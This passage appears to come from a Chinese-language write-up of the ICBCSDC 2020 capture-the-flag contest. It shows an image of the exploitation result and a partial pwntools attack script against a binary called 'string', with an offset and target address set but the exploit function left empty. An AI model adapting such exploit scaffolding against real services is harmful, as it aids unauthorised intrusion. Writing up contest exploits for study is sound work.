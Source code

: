 利用结果如下：

![image-20201121170552087](images/ICBCSDC-2020-CTF-WP/image-20201121170552087.png)

附攻击脚本：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Time    : 2020/11/21 9:15
# @Author  : ouzy
# @File    : string.py

from pwn import *
binary_file = './string'                # 文件名
context.binary = binary_file

# switches

if len(sys.argv) == 1:
    DEBUG = 1
else:
    DEBUG = 0
# modify this
if DEBUG:
    io = process([binary_file])
else:
    io = remote(sys.argv[1], int(sys.argv[2]))

context(log_level='debug')

# define symbols and offsets here

offset = 12
vuln = 0x0804A048               # main
val = 35795746


# define exploit function here
```